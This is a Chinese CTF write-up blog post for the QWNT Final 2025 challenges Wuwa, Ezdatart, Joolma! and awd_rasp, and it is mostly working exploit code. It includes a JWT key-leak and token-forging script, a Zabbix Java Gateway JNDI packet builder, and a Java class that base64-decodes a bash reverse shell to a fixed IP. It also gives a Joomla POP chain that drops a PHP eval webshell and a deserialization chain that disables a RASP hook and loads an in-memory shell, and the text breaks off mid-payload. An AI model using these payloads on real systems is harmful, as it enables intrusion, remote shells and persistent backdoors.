+++
title= "QWNT Final 2025"
slug= "qwnt-final-2025"
description= ""
date= "2025-11-29T13:53:16+08:00"
lastmod= "2025-11-29T13:53:16+08:00"
image= ""
license= ""
categories= ["赛题"]
tags= [""]

+++

第一没了😅，最后第三，感谢紫金山实验室，小包从来没见过这么多奖金😋。

有些 CS 尬黑 SU，做的快招你惹你了，你咋这么贱呢🙄🙄

## Wuwa

审计代码, 附件中 jwtKey 为 default_jwt_key, 远程并不是，看到外面有个 jwt 鉴权，内部有个 TCP 链接，初步思路是越权到任意文件读取

发现有一处代码明显不通


构造畸形 token 致使其报错抛出 key

```python
import requests

target_url = "http://127.0.0.1:8000/admin"

malicious_token = "A" * 1025

headers = {
    "Authorization": f"Bearer {malicious_token}",
    "User-Agent": "CTF-Exploiter/1.0"
}

try:
    # print(f"[-] Targeting: {target_url}")
    response = requests.get(target_url, headers=headers)
    # print(f"[-] Status Code: {response.status_code}")
    
    if response.status_code == 500:
        print("\n[+] Success! Traceback leaked:\n")
        print(response.text)
    else:
        print(f"[!] Failed. Response: {response.text[:200]}")

except Exception as e:
    print(f"[!] Request failed: {e}")
```

得到 jwtKey, 编写脚本伪造 jwtCookie

```Python
import jwt  
from datetime import datetime, timedelta  
  
SECRET_KEY = "c7c9b4c4-94e9-4cfb-9a4e-3a4eb2f42c38"  
ALGORITHM = "HS256"  
  
def create_jwt(username: str) -> str:  
    expire = datetime.utcnow() + timedelta(hours=100)  
    payload = {  
        "sub": username,
        "exp": expire  
    }  
    token = jwt.encode(payload, SECRET_KEY, algorithm=ALGORITHM)  
    return token  
  

if __name__ == "__main__":  
    token = create_jwt("admin")  
    print(token)
```



后台可以发起tcp请求, 探测其内网服务

```http
action=send&mode=tcp&tcp_host=127.0.0.1&tcp_port=10052&tcp_payload=hello&tcp_hex=on
```



内网10052端口存在zabbix java gateway, 打 Zabbix Java Gateway RCE

ZabbixJndiEvil.java:

```Java
import java.io.ByteArrayOutputStream;
import java.nio.ByteBuffer;
import java.nio.ByteOrder;
import java.nio.charset.StandardCharsets;

public class ZabbixJndiEvil {

    public static String toPythonHex(byte[] bytes) {
        StringBuilder sb = new StringBuilder();
        for (byte b : bytes) {
            sb.append(String.format("\\x%02x", b));
        }
        return sb.toString();
    }

    public static byte[] createPacket(String requestType, String jmxEndpoint) throws Exception {
        String jsonData = String.format(
                "{\"request\": \"%s\", \"jmx_endpoint\": \"%s\", \"keys\": [\"key1\",\"key2\"]}",
                requestType, jmxEndpoint
        );

        byte[] jsonBytes = jsonData.getBytes(StandardCharsets.UTF_8);

        ByteArrayOutputStream packetStream = new ByteArrayOutputStream();

        packetStream.write("ZBXD\1".getBytes(StandardCharsets.UTF_8));

        ByteBuffer len = ByteBuffer.allocate(8);
        len.order(ByteOrder.LITTLE_ENDIAN);
        len.putLong(jsonBytes.length);
        packetStream.write(len.array());

        packetStream.write(jsonBytes);

        return packetStream.toByteArray();
    }

    public static void main(String[] args) throws Exception {
        String requestType = "java gateway jmx";
        String jmxEndpoint = "service:jmx:rmi:///jndi/ldap://10.222.16.17:1389/a";

        byte[] packet = createPacket(requestType, jmxEndpoint);

        String pythonBytes = toPythonHex(packet);
        System.out.println(pythonBytes);
    }
}
```

生成payload:

```Plain
\x5a\x42\x58\x44\x01\x7e\x00\x00\x00\x00\x00\x00\x00\x7b\x22\x72\x65\x71\x75\x65\x73\x74\x22\x3a\x20\x22\x6a\x61\x76\x61\x20\x67\x61\x74\x65\x77\x61\x79\x20\x6a\x6d\x78\x22\x2c\x20\x22\x6a\x6d\x78\x5f\x65\x6e\x64\x70\x6f\x69\x6e\x74\x22\x3a\x20\x22\x73\x65\x72\x76\x69\x63\x65\x3a\x6a\x6d\x78\x3a\x72\x6d\x69\x3a\x2f\x2f\x2f\x6a\x6e\x64\x69\x2f\x6c\x64\x61\x70\x3a\x2f\x2f\x31\x30\x2e\x32\x32\x32\x2e\x31\x36\x2e\x31\x37\x3a\x31\x33\x38\x39\x2f\x61\x22\x2c\x20\x22\x6b\x65\x79\x73\x22\x3a\x20\x5b\x22\x6b\x65\x79\x31\x22\x2c\x22\x6b\x65\x79\x32\x22\x5d\x7d
```

生成字节码:

```Java
import java.util.Base64;  
  
public class Exploit {  
    public Exploit() {  
        try {  
        // bash -c 'sh -i >& /dev/tcp/10.222.16.17/7777 0>&1'
            String b64 = "YmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMTAuMjIyLjE2LjE3Lzc3NzcgMD4mMSc=";  
            byte[] bytes = Base64.getDecoder().decode(b64);  
            String command = new String(bytes);  
            Runtime.getRuntime().exec(new String[]{"bash", "-c", command});  
        } catch (Exception e) {  
            e.printStackTrace();  
        }  
    }  
  
    public static void main(String[] argv) {  
        System.out.println("Exploit");  
    }  
}
```

 使用 marshalsec 接收并发送本地字节码





## Ezdatart

考察nday利用

https://xz.aliyun.com/news/16394，以后每个人都得深入学习 java-chains



按照文章复现, 把下载后的payload压缩一下

```Java
import java.io.*;  
import java.util.zip.GZIPOutputStream;  
  
public class Main {  
    public static void main(String[] args) throws IOException {  
        try (FileInputStream fis = new FileInputStream("payload.txt");  
             FileOutputStream fos = new FileOutputStream("payload.ser.gz");  
             GZIPOutputStream gzipOut = new GZIPOutputStream(fos)) {  
            byte[] buffer = new byte[1024];  
            int len;  
            while ((len = fis.read(buffer)) > 0) {  
                gzipOut.write(buffer, 0, len);  
            }  
        }  
    }  
}
```



## Joolma!

pop 链审就完事了

```PHP
<?php
namespace Joomla\Filesystem;
use Laminas\Diactoros\CallbackStream;
class Stream
{
    protected $processingmethod;
    protected $fh = 1;
    public function __construct()
    {
        $this->processingmethod = new CallbackStream();
    }
}
namespace Laminas\Diactoros;
use Joomla\CMS\Document\HtmlDocument;
class CallbackStream
{
    protected $callback;
    public function __construct()
    {
        $this->callback = [new HtmlDocument(),"render"];
    }
}
namespace Joomla\CMS\Document;
use Joomla\CMS\WebAsset\WebAssetManager;
class HtmlDocument extends Document
{
    protected $_template = 'Infernity';
    protected $_template_tags = [
        "anything"=>[
            "type"=>"Scripts",
            "name"=>"anything",
            "attribs"=>"anything"
        ]
    ];
    public function __construct()
    {
        $this->_type = "Html";
        $this->webAssetManager = new WebAssetManager();
        $this->factory = new Factory();
    }
}
class Document
{
    public $_type;
    protected $factory;
    protected $webAssetManager;
}
class Factory{}
namespace Joomla\CMS\WebAsset;
use Joomla\CMS\Cache\Controller\CallbackController;
class WebAssetManager
{
    protected $activeAssets = [];
    protected $registry;
    public function __construct()
    {
        $this->activeAssets = ["system"=>["echo '<?php eval(\$_POST[1]);'>1.php"=>1]];
        $this->registry = new CallbackController();
    }
}
namespace Joomla\CMS\Cache\Controller;
class CallbackController{}
namespace Joomla\Filesystem;
$a = new Stream();
echo base64_encode(serialize($a));
```

然后进程里面有 sudo 密码，提权即可

## awd_rasp

开源的 awd 的rasp

https://github.com/ez-lbz/awd-rasp

发现反序列化接口



黑名单如下





利用 ShellSession 作为突破去构造链子，java-chains 生成内存马

```Bash
基础信息:
密码: uUHLs
请求路径: /*
请求头: Accept: xjKkbwIagyZAIlwrdsXS
脚本类型: JSP
```



```Java
package org.awd.awdbypass;
import com.tangosol.coherence.mvel2.sh.ShellSession;
import org.apache.commons.collections.FastHashMap;
import org.apache.commons.collections.functors.FactoryTransformer;
import org.apache.commons.collections.functors.InstantiateFactory;
import org.apache.commons.collections.map.DefaultedMap;
import org.awd.awdbypass.serialization.SecurityObjectInputStream;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;
public class poc_test {
    public static void main(String[] args) throws Exception {
        String code = "f = Thread.currentThread().getClass().getClassLoader().loadClass(\"com.rasp.hooks.RceHook\").getDeclaredField(\"doRCEHook\");f.setAccessible(true);f.set(null, false);bytes = java.util.Base64.getDecoder().decode('yv66vgAAADIBPgEAVG9yZy9hcGFjaGUvY29tbW9tcy9iZWFudXRpbHMvY295b3RlL3V0aWwvVG9rZW5CdWZmZXJlOTNkZDlmNTAwNWI0YzgwYWMwMjJjZWY3ZTk5NmQxNwcAAQEAEGphdmEvbGFuZy9PYmplY3QHAAMBAAxnZXRDbGFzc05hbWUBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEAVG9yZy5hcGFjaGUuY29sbGVjdGlvbnMuY295b3RlLnNlci5zdGQuVVVJRFNlcmlhbGl6ZXJkN2Q5ZjY4OTIxYWY0MDdkOTZlMzE4OTI3MzdlY2ZhMQgABwEAD2dldEJhc2U2NFN0cmluZwEAE2phdmEvaW8vSU9FeGNlcHRpb24HAAoBABBqYXZhL2xhbmcvU3RyaW5nBwAMAQwgSDRzSUFBQUFBQUFBQUxWWGVWd1U1eGwraGwyWVpWbE5YQlJGMnlUZXNDd3Nod0pDRGtFZ0VBR05xeWdTMHc2enM3QzY3cTR6cytqYXhyU3BUYTgwdlp1bTk1R1V0ckd0dG5GUnFjYllJMjE2SCtsOTMwM2IvL3RQbWo3ZnpMQmNpL2hQZnl4emZOLzdQdS83UGUveGZmUDhmeTlkQVZDSGYwdlltOVJIUWtwS1VVZTFrSnFNeHpYVmpDVVRCcDh6U1ZNTEdab2VNc3hJYU4rK25vNndwc2VVZU95a3BrZWFJdHVpamMzYjZ1dVU2SlphdmpScURYVjhiV3BvMHRTb1VpZERrckRpc0RLbWhPSktZaVMwSTY0WVJtOVNpV2k2REplRURXTHFoQUFmaTJ0bUtHemY5MmpIMHBwaDlzWU1VMHNJeVVJSlJiZkhFakh6VGdtdWlzb0JDZTRkeVlnbTRhYmVXRUxyVHg4ZDF2Uzl5bkNjSS83ZXBLckVCeFI2eUhkbjBHMk94Z3dKQTczL2p6VzIraURENDRVYlN5V3NydWpOdTlwVzRiU2tTbGk1d0x3QXVWbUFsRkp1aEtSVkRMVlh6cFZ0NWR5d2hJS2hkZ2tsRVMzS3hWdmpoS1Y0VDg5OEJSL0tzVnJBcnBGd3MyN3oyc0YvUFpuUkloSTIyZTR1RklIT01TMWhXcTZYR3ZNbkpLeS9BVzJHeExIYnd3RGFuTkp5NmJTbm5TZFVMU1VDSVdNZEYrNWdxbm9tWlNaRE8yS3BVZElqd2FOclJvckJZampuT2oxcW1xbFFOeTg1KzdZa3RXUkRNd3hDUzdodFlTVkxnc0t1NVBCaGtWT1dhMmt6RmcvMUtTa0I0aXhBd3VaRkxWdUMxRm03S0RNeXFpVnN2Q0U4R1NIRzZzWVdMYU5Pd2kzWFg2dU1CZ2xMWmkxVHhsWU9oVTFGUGNJM3AyNldqV2ptYkUvSVkwWGxkYVBPbEd2R05pOXEwQ0xCTzZxSjdPNVhqbHFsT1IzenNLbkhFaU9VdlIxM0ZLTUFMT3hpR3V1MnhITjVPVXUyTXAvNmRyU1ZvQmFpSG14VEEwbzhyZm5RWWNOMk11dm5hc200bTlta0poT21Fa3V3ZE5iTUt0bFJSUStMaFNSVXJiWHlvQTg5dU1lTGJ1eVVVRFl5VFhLWG5qeWFZK1RleGZQUlptWXVjUXZtclE5OTZQZlMvMTJrMElxQms4VHI1cEUvTDQxOXVCZDdCQ2RoeG04NnhOMktNV3FGZVo4WEExanFRUlh6UFpXbSs4MHoxNzlyK0RDYll1djhrY3I1UXo0TTRtQUpHakhrd1VZUE5yTTVwVDE0RmR0dGlxM0hCOFdPQVJ1V2g0YXN3TENDOGtRMmo3VUJIeUxRU3JBRlVmcloxaG4yWU5ScEduTmFnd3pXYkFsSjZra1lwc0t3U2FoY01Idm10aFVmNGpqcXhSR1EyMXRuQ1JncFRXVm1xN3BtN3RReVliN0pTSEVsTk5TZU1UWG1qYnVpY3FqZEJ4MkdTQkRUN3NGNURBK0kxajdteFRFY3A1TFl4WVJvankxcGFHcGFqNW1aRUkxWW9obWNGUDY4WmxiaTJxekllTUIyd09uNXBSWDUrdjJEZUowWHAvQjZOckk1a3pMZUlHSHBsTDY5NzBnb240K1MyNUxlaUllOU9JMDNpVlFzdFN0MGoxT2hxNmZVWXNsUWV6b2ExWFF0WXM5Ujc2MTRtOGpBUjFnMCtXVmtQR3AxZENVaU5uQUp5eXZ5VnZjNzhTNHYzb0YzUy9BTks0Yld1S1ZEVTYxOXZ5eGZoRVUwM292M0NXZmZ6NllkU1hiRkVrcWNSd2V4bFlySkQrQnh3ZTBIZlZpQk1pSDJZV1pPUWpzK25UbXovY2psK1VmeE1jSER4NG5GVWxiaWh0aWY4MlF0KzhVbjhTbEIveE1zM055K1J2RkNVdGMxc0dpeDVXbDFPU2ZHOFJuaDgyZWQ3bTdQOWlmRGFYVzBLNmJGSXpPMjBhZVlhR09Ldm5WcTExdFl0dFdXckozZG5SMmI5bHlkZmF0bnFzd1EwYldvT0Q2RkxEaEhrcHZLc2p4SGxwVUxhTW5JTXN0SkRLTWFWNWdiMXFpRTZrV2EvMnpUUGx6QVJSR2RTOXkvUks5TXB6UmRqVnNkNkN1aUZrN2o4cHh3emFyTVo3dzRnNnZVTlRTelRWVkZGN1hQakJVSGhjQTFmTldMQ1h5TlhZamdjM2FtNi9YR2IrQTVvZmhOeHA3ZW5Ed3BNdExLWG4zcWpEUG45Q01PSUR5WU1ibU5kS0xtYU14UWE5cmJ3cDFUU2E5NzhEMWlSSlBPYnJweEVaYW0rc0VQOEVQQndZOVlRN1o5dXhJOStJbGQwSDJhT1pvazY5dno0QTNOdzhzWEJ4dUJwbjZLbndsVFA1ZXdhaUVwR2I5a0VjVVNZOGtqWE1PMlBHUU8zU0MvdjhadnZQZ1ZmaXRqbGRNcmE4UkdWOU51TlFvUC9tQnZuVG55L2tTN05nRWUvSVVha1doRFpHdTBzYlpCYTlUVVJyWFpnNzlSUW1SQXl2VGdIK3dGSnc3dlBESjh2RWNaeVJ4czY0a2YxeVBHQVc1RC84UmFWcUViRklhTFYrNXkvSVNTeEVIR3VuZFlkdytmWk90YXpMZE9TeEpZR1pqQVRRSC8zODlERGZoZlBJKzdBdjUvblVmWE9VNFZ3TXVyS0hDZ2pIOHJVY0lubjYzRyt4SUxuTjhJRHVSdXVpQmtWd1dxSnJCOGNjelZSRmxqWVpiWmVnNm1lRm9HUDFFbDBSVWQ5RHNjOU9KQWxhdnF5Z1JlY1RZSFYyUzVkT3NNcU9JY1ZER05yTEtnWG9sYkhLaXRsaWFkUHpjSFlzTU1DQ2tId1gwWXQxa1FhNmNncENlb0lYUHVXbFVXclZkUjJ4Y01QSTI3TG1KSEFhdnNxZWtYUG5SbDBmczRIZ3NFSjdDN1AzZ1JleVcwdUNjeE1EaUIvUzJGNVlYK0F4eTh6NFg5ZkR4VW5YdTh2OXp0UEx2OXJ5YU1laEVqTHZoakY1QnNLU292S3B6RXNVRXhuRVhhSDV2QWlTeGVPNG1Dd1VBV0QyWHg1Z204cGJ3b1FPQzNTOGppUFZrOGxzV0hzdmhJRnA4b0w4eml5ZjNqS0d3cEdvZTcvNXc0RDdGaFRXSTlrK015cnZMdXNqanBZaFNBelJ5dDVGOEFJVlNoQ1VFZWNLdXhrNGZwQVk0TTgwczlpWHFNb1FHUDhHaDBnV2V2U1JKOEdTMUVhc2F6VEVMQmFiYzRjS0NkaUJ2SVhBaVBZaU0yMFU0VEhxYUZDc1oyT3g2d3JCUUtWblBjWDNPNDkrQVNyUWZwYXhOSE44SDlNczBVeVNpUVVTT2pWa2E5akMweWpVc3kxdjhIVWp0dklyWTh0UEw2YWVxSThsaHZoYitiSThKS1VPcXI4aCs0Z00vNUQvRnlGZlY5NHlqdnI1cng1bWx4ajhQRlgvQXNkUXJvL1hKaXJLQlA2d1E4dmVVT3lIR0IrZ0pYSTFDYnBUNFJnLzVxLzZrblVWYk4vSmdrMHBJV2QzVVdWL3JIWDM0eCtCeDhremd6eUNKNTlwbWdPNHV2QjZud3JiUDBid2xLbVgxbkhQN3J5UUt3Zy9nZFpLK0xzOTJjNzZIRVBVenBuVXpvWG5Lemk0enVaa1QyVUQ1c2NiMkZmcXppLytmeEJhNmFIdUdMT0d1eDJZeHpyQ04rclpPb0wrSEx2UFBUREUvanZCVUpjSDN1bHlETG1KQnh1bC9HbVdM